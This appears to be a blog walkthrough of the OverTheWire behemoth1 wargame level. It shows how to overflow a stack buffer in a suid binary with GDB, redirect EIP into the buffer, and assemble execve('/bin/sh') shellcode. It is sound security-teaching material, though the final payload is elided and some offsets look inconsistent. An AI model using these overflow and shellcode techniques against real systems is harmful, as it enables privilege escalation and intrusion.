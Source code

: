 ```yaml
---
layout: post
title: How to solve behemoth1 task or stack overflow showcase
---
```


The tasks have been taken from [overthewire.org](http://overthewire.org/wargames/behemoth/).

Login into the warbox:

```
    $ ssh behemoth1@behemoth.labs.overthewire.org -p 2221
    with the password you've obtained in `behemoth0`
```

Run and try to enter strings of various length:

```
    $ /behemoth/behemoth1
```

It's easy to find out that entering something longer than 75
symbols crashes the program. Congratulations, this is the stack
overflow problem.

`012345678901234567890123456789012345678901234567890123456789012345678901234`

Let's take a look at the file. It has `suid` bit as most of
the problems from the suite. `readelf` or `objdump` would not
show you anything interesting.

```
    $ cat /behemoth/behemoth0
```

Ok, go for GDB with:

```
    $ gdb -ix /usr/local/gdbinit/gdbinit /behemoth/behemoth1
    gdb$ func
    gdb$ dis main
```

You will see disassembled `main` listing. What is interesting
here, is that the function is very short and contains nothing but
immediate `puts` call responding with a failed authentication
right after the `gets` request for the password.

There is no password here. No password check. You have to exploit
stack overflow to gain access to the next flag. So here you go.

Set the breakpoint at last `leave` instruction, and calculate
size of the message for `ebp` and `eip` values on the stack.

```
    gdb$ b *0x0804847f
    gdb$ run < <(echo -ne "123123456789012345678901234567890123456789012345678901234567890123467890123\x00\x00\x00\x00\x00\x00\x00\x00")
    Breakpoint 1, 0x0804847f in main ()
    gdb$ hexdump $esp 7
```

`leave` instruction does a simple thing. It restores stack
pointer from the stack base and pops out `ebp` from the frame.
Next coming `rep` will pop `eip` from the stack top. Thus, you
have the following instructions:

```
    # https://c9x.me/x86/html/file_module_x86_id_154.html
    $esp = $ebp
    $ebp = pop()
    $eip = pop()

    # mem map
    00 00 00 00 00 00 00 00 | XX XX XX XX YY YY YY YY
                              ^ ebp register value
                                          ^ eip register value
```

So `eip` starts at

```
    gdb$ p $ebp+0x4
    $2 = (void *) 0xffffd5bc
```

Beginning of the buffer may be calculated tracing the instructions
in the `main` or right from the hex dump:

```
    gdb$ p $ebp-0x60-0x8+0x1d
    $1 = (void *) 0xffffd56d
```

Rerun program with `eip` replaced for the beginning of the buffer.

```
    gdb$ run < <(echo -ne "123123456789012345678901234567890123456789012345678901234567890123467890123\x00\x00\x00\x00\x6d\xd5\xff\xff")
    Breakpoint 1, 0x0804847f in main ()
    gdb$ n 2
    0xffffd56d in ?? ()
```

So, it works. We've got our process jumped right into the buffer.

Now, we need to load the input with a program to replace current
process with a `/bin/sh`.

We have 75 bytes to fulfill our purpose.

Let's invoke `/bin/sh` right from the stack. In order to do that,
we will need to call `execve` syscall. Read about linux syscall notation
and `execve` system call at
[man 2 syscall](http://man7.org/linux/man-pages/man2/syscall.2.html),
[man 2 syscalls](http://man7.org/linux/man-pages/man2/syscalls.2.html),
[man 2 execve](http://man7.org/linux/man-pages/man2/execve.2.html),
[Linus kernel source unistd_32.h](https://github.com/torvalds/linux/blob/master/arch/sh/include/uapi/asm/unistd_32.h).

So, `execve` in 32 bit mode has 3 arguments and syscall id equal to
0x0b (11). The assembly for the `execve("/bin/sh", NULL, NULL)` call
should look like this:

```
    31C0  xor %eax, %eax          ; syscall id: %eax = 0
    ????  lea str_address, %edi   ; arg1: path
    31F6  xor %esi, %esi          ; arg2: %esi = 0
    99    cdq                     ; arg3: %edx = 0, as extension of $eax
    B00B  mov $0x0b, %al          ; syscall id: %eax = 0xb
    CD80  int $0x80               ; syscall execve("/bin/sh", NULL, NULL)
```

Where to take an address for `lea`? It can be obtained from the stack
using short call jump trick:

```
    jmp short forward
    program:
    pop %edi
    ...
    forward:
    call short program
    '/bin/sh'
```

Finally, we have something like:

```
    0000        jmp short 0xd
    0002  5F    pop %edi                ; arg1: path
    0006  31F6  xor %esi, %esi          ; arg2: %esi = 0
    000A  31C0  xor %eax, %eax          ; syscall id: %eax = 0
    000B  99    cdq                     ; arg3: %edx = 0, as extension of $eax
    000D  B00B  mov $0x0b, %al          ; syscall id: %eax = 0xb
    000F  CD80  int $0x80               ; syscall execve("/bin/sh", NULL, NULL)
                call qword 0x2
                '/bin/sh'  0x00
```

...

Use obtained password to enter new a `/bin/sh`
shell and get a flag for the next warbox.

Links
===

- [Objdump - How to output text (eg ASCII strings) alongside assembly code?](https://reverseengineering.stackexchange.com/questions/14633/objdump-how-to-output-text-eg-ascii-strings-alongside-assembly-code)
- [convert a hex string to binary and send with netcat](https://unix.stackexchange.com/questions/82561/convert-a-hex-string-to-binary-and-send-with-netcat)
- [gdb - debugging with pipe](https://stackoverflow.com/questions/1456253/gdb-debugging-with-pipe?utm_medium=organic&utm_source=google_rich_qa&utm_campaign=google_rich_qa)
- [Linux/x64 - execve(/bin/sh) Shellcode (25 bytes)](https://www.exploit-db.com/exploits/39624/)
- [C shellcode explanation](https://security.stackexchange.com/questions/119959/c-shellcode-explanation/119978)
- [64-bit Linux Return-Oriented Programming](https://crypto.stanford.edu/~blynn/rop/)
